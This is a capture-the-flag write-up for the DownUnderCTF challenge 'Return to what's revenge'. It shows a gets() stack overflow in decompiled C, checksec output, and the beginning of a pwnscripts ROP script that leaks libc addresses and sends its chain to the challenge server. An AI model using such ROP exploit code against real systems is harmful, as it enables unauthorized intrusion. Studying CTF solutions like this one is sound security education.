 # Return to what's revenge [medium]
Author: Faith

*My friends kept making fun of me, so I hardened my program even further!*

The flag is located at /chal/flag.txt.

`nc chal.duc.tf 30006`

Attached files: `return-to-whats-revenge` (sha256: 489734ecb8d2595faf11033f34724171cbb96a15e10183f3b17ef4c7090b8ebc)

#### This challenge was quickly finished with [pwnscripts](https://github.com/152334H/pwnscripts). Try it!

This time I was 4th blood --- things were slowed down a bit because I went to [patch pwnscripts](https://github.com/152334H/pwnscripts/commit/9d3dcd7a4aaf2f10fcf878cd7203a469259d5b58) halfway through.

## Return-to-what?
This challenge is a continuation of [Return to what](https://ctftime.org/task/13024), and it'll be helpful to see what's changed from that challenge.

Looking at `main()`, everything looks the same:
```c
void vuln() {
  char name[40]; // [rsp+0h] [rbp-30h]
  puts("Where would you like to return to?");
  gets(name);
}
int main() {
  puts("Today, we'll have a lesson in returns.");
  vuln();
}
```
Checksec hardly looks different too:
```python
[*] 'return-to-whats-revenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
At this point, it's rather tempting to run `return-to-what`'s [exploit code](https://github.com/IRS-Cybersec/ctfdump/blob/master/DownUnderCTF%202020/Return%20to%20what.md#analysis) (with minor edits to match the new binary), and to see if it'll work just-like-that:
```python
from pwnscripts import *
context.binary = 'return-to-whats-revenge'	# Edited
context.libc_database = 'libc-database'

def rop_frame():
    rop = ROP(context.binary)
    rop.raw(b'\0'*0x38)
    return rop

rop = rop_frame()
rop.puts(context.binary.got['puts'])
rop.puts(context.binary.got['gets'])
rop.main()

r = remote('chal.duc.tf', 30006)			# also edited
r.sendlineafter('to?\n', rop.chain())

```